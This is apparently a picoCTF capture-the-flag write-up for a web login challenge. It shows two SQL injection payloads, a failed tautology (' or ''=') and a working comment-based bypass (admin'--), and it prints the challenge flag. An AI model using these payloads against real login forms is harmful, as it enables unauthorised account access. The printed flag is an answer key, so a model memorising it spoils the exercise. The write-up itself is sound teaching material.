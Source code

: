 #web-exploitation
<hr>
#### Description
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/53751/login.php with form key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' ' (**Same as before**)
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`  --> Failed
4. Some research on https://portswigger.net/web-security/sql-injection: Subverting application logic. send POST with usernmae=`admin'--`
5. The SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'
> The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query... (portswigger)
6. Your flag is: picoCTF{m0R3_SQL_plz_c34df170}